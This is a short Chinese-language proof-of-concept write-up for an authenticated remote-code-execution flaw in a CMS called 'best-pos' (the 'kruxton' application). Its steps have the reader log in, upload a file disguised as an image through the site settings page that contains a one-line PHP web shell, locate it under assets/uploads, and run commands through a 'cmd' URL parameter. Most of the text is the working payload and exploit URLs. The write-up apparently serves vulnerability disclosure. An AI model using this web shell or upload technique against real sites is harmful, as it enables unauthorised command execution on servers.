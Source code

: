 # best-pos cms Authenticated RCE

### 利用步骤
1. 登录
2. 访问`http://localhost/kruxton/index.php?page=site_settings`
3. 上传图片
   1. `<?php system($_GET['cmd']); ?>`
4. 访问 `http://localhost/kruxton/assets/uploads/`
5. 找到上传的shell 文件
6. 执行cmd 验证
   1. `http://localhost/kruxton/assets/uploads/1676627880_shell.png.php?cmd=whoami`
